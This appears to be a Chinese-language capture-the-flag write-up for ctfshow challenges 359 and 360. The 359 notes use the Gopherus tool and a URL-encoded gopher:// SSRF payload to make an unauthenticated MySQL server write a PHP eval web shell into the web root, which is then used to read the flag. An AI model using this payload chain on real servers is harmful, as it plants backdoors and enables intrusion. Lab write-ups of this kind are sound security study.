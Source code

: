 

##### ctfshow-359

提示打无密码的mysql

![image-20240511144514801](D:\Infiltration\笔记\note\图片\image-20240511144514801.png)



![image-20240511151012487](D:\Infiltration\笔记\note\图片\image-20240511151012487.png)

抓包找到跨站注入点，因为要攻击mysql，需要用到gopher协议

![image-20240511150939659](D:\Infiltration\笔记\note\图片\image-20240511150939659.png)

###### gopher协议

gopher:// 分布式文档传递服务，可使用gopherus生成payload
由于有部分协议http这类不支持，可以gopher来进行通讯（mysql，redis等）
应用：漏洞利用 或 信息收集 通讯相关服务的时候 工具：[Gopherus](https://github.com/tarunkant/Gopherus)

选择mysql，执行sql语句，写入一个后门语句到网站默认目录`/var/www/html/`

```
python2 gopherus.py --exploit mysql
Give MySQL username: root
Give query to execute: select "<?php eval($_POST["pass"]);?>" into outfile "/var/www/html/pass.php"
```

![image-20240511152450227](D:\Infiltration\笔记\note\图片\image-20240511152450227.png)

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4b%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%70%61%73%73%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%70%61%73%73%2e%70%68%70%22%01%00%00%00%01
```

使用burp将url编码一下，因为浏览器会进行url解码一次。

![image-20240511152544602](D:\Infiltration\笔记\note\图片\image-20240511152544602.png)



访问生成的pass.php，查看根目录下的flag

![image-20240511152932862](D:\Infiltration\笔记\note\图片\image-20240511152932862.png)

##### ctfshow-360

redis数据库未授权

![image-20240511153918403](D:\Infiltration\笔记\note\图片\image-20240511153918403.png)
